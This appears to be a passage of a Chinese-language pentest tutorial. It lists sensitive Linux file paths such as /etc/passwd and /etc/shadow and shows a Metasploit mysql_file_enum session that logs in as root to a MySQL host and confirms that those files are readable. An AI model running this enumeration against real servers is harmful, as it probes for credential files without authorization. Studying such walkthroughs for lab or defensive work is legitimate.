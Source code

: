 ```
/etc/passwd
/etc/shadow
/etc/group
/etc/mysql/my.cnf
/etc/hosts
/etc/hosts.allow
/etc/hosts.deny
/etc/issue
/etc/fstab
/proc/version
```

MYSQL 文件/目录枚举器

使用 MySQL load_file 功能枚举文件和目录，有关更多信息，请参阅参考资料中的 URL。

[MYSQL File/Directory Enumerator](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_file_enum/)

```
msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > use auxiliary/scanner/mysql/mysql_file_enum
msf5 auxiliary(scanner/mysql/mysql_file_enum) > options

Module options (auxiliary/scanner/mysql/mysql_file_enum):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   DATABASE_NAME  mysql            yes       Name of database to use
   FILE_LIST                       yes       List of directories to enumerate
   PASSWORD                        no        The password for the specified username
   RHOSTS         192.41.63.3      yes       The target address range or CIDR identifier
   RPORT          3306             yes       The target port (TCP)
   TABLE_NAME     NqkHEJOY         yes       Name of table to use - Warning, if the table already exists its contents will be corrupted
   THREADS        1                yes       The number of concurrent threads
   USERNAME       root             yes       The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_file_enum) > set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
FILE_LIST => /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
msf5 auxiliary(scanner/mysql/mysql_file_enum) > run

[+] 192.41.63.3:3306      - /etc/passwd is a file and exists
[+] 192.41.63.3:3306      - /etc/shadow is a file and exists
[+] 192.41.63.3:3306      - /etc/group is a file and exists
[+] 192.41.63.3:3306      - /etc/mysql/my.cnf is a file and exists
[+] 192.41.63.3:3306      - /etc/hosts is a file and exists
[+] 192.41.63.3:3306      - /etc/hosts.allow is a file and exists
[+] 192.41.63.3:3306      - /etc/hosts.deny is a file and exists
[+] 192.41.63.3:3306      - /etc/issue is a file and exists
[+] 192.41.63.3:3306      - /etc/fstab is a file and exists
[+] 192.41.63.3:3306      - /proc/version is a file and exists
[*] 192.41.63.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

